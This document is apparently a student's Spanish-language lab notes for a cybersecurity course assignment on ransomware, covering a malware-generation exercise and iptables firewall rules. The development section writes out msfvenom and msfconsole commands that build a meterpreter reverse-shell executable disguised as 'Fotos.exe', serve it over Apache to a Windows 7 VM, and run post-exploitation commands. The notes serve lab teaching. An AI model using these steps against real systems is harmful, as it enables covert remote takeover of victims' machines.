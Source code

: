 # Info
Apoyo
[Google drive profe](https://drive.google.com/drive/folders/1ltz_dNvsPAmWGl8aKHMr1_4YH1xGgG94)
Descarga [Kali Linux](https://www.kali.org/get-kali/#kali-virtual-machines) y su [Documentacion](https://www.kali.org/docs/) y la de sus [Herramientas](https://www.kali.org/tools/)
- `extras/Adjuntos/1_2_2_Actividad_Generacion_de_un_Malware_JCalderon.pdf`
Apoyarse con [[999 - Archivado/IPtables|IPtables]]
## Contexto
Una empresa naviera sufrió un ataque de tipo Ransomware. Este [[020 - Conceptos/020.2 - Seguridad/Malware|Malware]] llegó a través de un archivo del tipo Office al correo de uno de los empleados, y rápidamente infectó los servidores críticos cifrando el contenido, dejando a la empresa inhabilitada para funcionar por varios días. Los ciberdelincuentes solicitaron un rescate en Bitcoin que la empresa tuvo que pagar para recuperar sus activos críticos.
## Instrucciones

### ITEM I: Investige acerca de los malware del tipo ramsomware. 
Nota: Es importante que use sus propias palabras, no se acepta copy-paste y referencie la fuente
1. Qué es un ransomware y qué principios de la ciberseguridad vulnera, y cómo nos podemos proteger
2. Qué vulnerabilidad aprovechó el ransomware WannaCry, y cómo se puede solucionar. (indique parche asociado)
3. Realice una descripción de qué es Ethernalblue y Doublepulsar.
4. Qué otros malware del tipo ransomware han afectado a las organizaciones a nivel mundial, describa 5.

### ITEM II: Entrege Recomendaaciones (Al menos 3) a la empresa para evitar ser, nuevamente, victima de este tipo de ataque. Liste y Describa ampliamente las recomendaciones (5 Puntos)

### ITEM III: Haga un Analisis del archivo FOTOS.EXE (10 puntos)
Nota1: Debera usar MSFVENOM para generar el archivo "FOTOS.EXE" y generar el ataque de "REVERSE_TCP", este archivo estara ubicado en Descargas y Entregue los IoC(Indicadores de Compomiso) de ese archivo (IP, HASH) y recomendaciones de seguridad. Incluir Capturas de pantalla.
Nota2: Usar VM "Win 7 IE" y los sitios [URLSCAN](), [Virustotal]() o alguna otra.

### ITEM IV: Generar politicas de Firewall e IPtables (5 Puntos)
Nota1: Usar VM "Kali Linux" y Evidenciar configuraciones en el informe
- Generar Politicas de `INPUT/OUTPUT/FORWARD` por defecto `ACCEPT`, 
- Permitir solo el uso del puerto `80` para aceptar conexiones de la maquina cliente `win7`, los demas servicios estaran bloqueados
- Habilitar Politica para rechazar las conexiones al puerto 22 desde fuera de la red
- Bloquar Dominio `www.facebook.com` para que la maquina kali no pueda acceder a esta URL

## Desarrollo
Primero que nada la configuracion de esto:
acceder a la configuracion de Kali Linux > Red > Adaptador 1 y dejarlo en "NAT", Luego ir a Adaptador 2 y dejarlo en "Red Interna" con el nombre de "intnet", luego abrir advance y en el modo promiscuo con "permitir todo"

Me funciono dejando la configuracion de los dos adaptadores como adaptadores puentes a la misma salida ethernet, por lo que usaria la red de mi casa como local :p

Kali Linux
Abre una terminal
```
sudo su
```
Poner el teclado en español (es o latam)
```
setxkbmap es
```
Crear virus
Nota: lhost usa la ip de la maquina kali de la red nat
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 -f exe -a x86 > Fotos.exe
```
Ingresar Consola
```
msfconsole
```
Cargar Exploit
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set lhost 10.0.2.15
```
```
set lport 4444
```
```
exploit
```
Crear carpeta compartida apache
```
mkdir -p /var/www/html/shares
```
mover Fotos.exe
```
mv /Fotos.exe /var/www/html/shares
```
Activar servidor Apache2
```
service apache2 start
service apache2 status
```

EN WINDOWS7 -> Acceder a la ip de kali(`10.0.2.15`) desde Win7 y descargar `Fotos.exe`

Comprobar conexion desde kali
```
sysinfo
screenshot
mkdir "Hola Mundo"
nc -vlp 4444
```

---
IPTables en Kali:

Comandos iniciar/Reiniciar/Detener Firewall
```
service iptables start
service iptables restart
service iptables stop
```
Ver reglas de salida firewall Generales/Input/Output
```
iptables -nvL
iptables -nv -L Input
iptables -nv -L Output
```
Aceptar Politicas por defecto "ACCEPT"
```
iptables -P INPUT ACCEPT
iptables -P OUTPUT ACCEPT
iptables -P FORWARD ACCEPT
```
Permitir solo el puerto 80 para las conexiones con Win7, los demas bloqueados (IPIPA)
```
iptables -A INPUT -p tcp --destination-port 80 -m iprange --src-range 192.168.1.10-192.168.1.200 -j ACCEPT
```
Habilitar politica para rechazar conexiones puerto 22 fuera de la red
```
iptables -A INPUT -m state --state NEW -m tcp -p tcp --dport 22 -j DROP
```
Bloquear Dominio [www.facebook.com](http://www.facebook.com/) para que la maquina kali no pueda acceder a esa url
```
iptables -A OUTPUT -p tcp -d www.facebook.com -j DROP
iptables -A OUTPUT -p tcp -d facebook.com -j DROP
iptables -A INPUT -p tcp -d www.facebook.com -j DROP
iptables -A INPUT -p tcp -d facebook.com -j DROP
```
Guardar Reglas Firewall en caso de/Restaurar
```
iptables-save > /root/reglas.firewall
iptables-restore < /root/reglas.firewall
```

Terminado
- `extras/Adjuntos/Instrucciones Evaluación 1 Terminada.pdf`